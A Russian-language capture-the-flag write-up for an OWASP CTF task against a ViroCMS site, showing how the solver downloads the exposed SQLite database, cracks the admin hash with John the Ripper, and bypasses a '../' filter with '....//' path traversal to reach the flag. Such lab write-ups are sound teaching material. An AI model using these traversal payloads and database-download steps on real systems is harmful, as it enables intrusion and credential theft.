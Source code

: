 # Rivne (22.owaspctf.gq)

На главной странице редирект на `/ViroCMS`.

Посмотрев [исходный код](https://github.com/ialexpw/ViroCMS/blob/master/app/viro.app.php#L29) видим что sqlite база лежит внутри webroot приложения.

```
$ wget -q 'http://22.owaspctf.gq/ViroCMS/app/db/viro.db'
$ sqlite3 ./viro.db
sqlite> .tables
articles  backups   content   groups    users     zones
sqlite> select * from users;
1|admin|cms@viro.app|$2y$10$0FSo8PlwHruYCfxDYW0WP.Hf/MYdPN8xCTWpZtT0JIX38pdW7O6Iq|on|on|on|on|1571346062|1
...
```

John the ripper брутит хэш и паролем оказывается "password". Логинимся в CMS и заходим в раздел "Plugins".

Ссылка выглядит так: `https://22.owaspctf.gq/ViroCMS/?page=plugins&path=plugins/`, протестировав параметр path,
можно прийти к выводу что он попадает в `scandir` но перед этим из него удаляется подстрока `../`

```
https://22.owaspctf.gq/ViroCMS/?page=plugins&path=plugins/../plugins/ -> Warning: scandir(/var/www/html/ViroCMS/app/plugins/plugins/)
https://22.owaspctf.gq/ViroCMS/?page=plugins&path=plugins/....//plugins/ -> OK
```

`https://22.owaspctf.gq/ViroCMS/?page=plugins&path=plugins/....//....//....//`:

|Name             |Size |Type |Permissions|
| --------------- | --- | --- | --------- |
|.htaccess        |70   |file |0755       |
|ViroCMS          |4096 |dir  |0777       |
|flag_in_this_dir |4096 |dir  |0755       |
|index.html       |55   |file |0644       |

`https://22.owaspctf.gq/ViroCMS/?page=plugins&path=plugins/....//....//....//flag_in_this_dir/`:

|Name             |Size |Type |Permissions|
| --------------- | --- | --- | --------- |
|this_is_flag.txt |26   |file |0644       |

`https://22.owaspctf.gq/flag_in_this_dir/this_is_flag.txt`

`FLAG{Live_For_Inclusions}`
